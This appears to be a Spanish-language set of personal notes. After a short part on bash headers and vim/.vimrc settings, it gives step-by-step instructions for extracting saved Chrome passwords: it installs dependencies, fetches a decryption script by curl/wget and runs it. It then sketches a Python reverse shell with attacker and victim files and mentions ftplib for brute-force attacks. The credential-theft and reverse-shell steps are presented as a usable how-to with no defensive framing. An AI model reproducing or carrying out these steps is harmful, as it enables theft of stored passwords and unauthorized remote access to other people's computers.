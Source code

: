 ## Script bash

Debe llevar encabezados:

```sh
#!/bin/bash
```

```sh
$ vim
$ :edit Readme.md
$ :x # reemplaza a -> :wq
$ vim  -> :set number o :set nu # enumera las lineas

```

Crear un archivo llamado .vimrc, este va a almacenar las configuraciones de indentatación - colores - tabs:

Este archivo se recargará cada vez que utilices la terminal.

```sh
set showmode
set autoindent
set tabstop=2
set expandtab
syntax on
```

# Obtener contraseñas almacenadas en el navegador:

1° descargar estas dependencias:

```sh
$ pip install sqlite
$ pip install pycryptodomex
$ pip install pywin32
```

```sh
$ curl https://raw.githubusercontent.com/ohyicong/decrypt-chrome-passwords/main/decrypt_chrome_password.py -o nombre_del_archivo.py

o 

$ wget https://raw.githubusercontent.com/ohyicong/decrypt-chrome-passwords/main/decrypt_chrome_password.py -o nombre_del_archivo.py
```

Ejecutar:

```sh
$ python nombre_del_archivo.py
```

Obtenemos las contraseñas del navegador...


### Principales librerías en Python:

- Para ReverseShell: socket
Ejemplo en: [ReverseShell_Python](https://github.com/Maalfer/ReverseShell_Python)

En el archivo atacante.py pongo la IP de la victima:

```py
server_address = ('IP-Victim', 5000)
```

NOTA: cuando tenemos la siguiente conexión, significa que estamos aceptando cualquier conexión IP privada.

```sh
0.0.0.0
```

Ejecutar:

Se va a quedar a la escucha
```sh
$ python3 victima.py
```

OS: para copiar comandos, controlar SO, acceder a las variables de entorno.

Ejemplo:

```py
import os

# esto se conectará al puerto indicado desde la máquina atacante a la victima:
os.system("python3 -m http.server 5000") 
```
ver: [Librerías](https://www.youtube.com/watch?v=TSkYt-kGj24)

- ftplib: para ataques de fuerza bruta



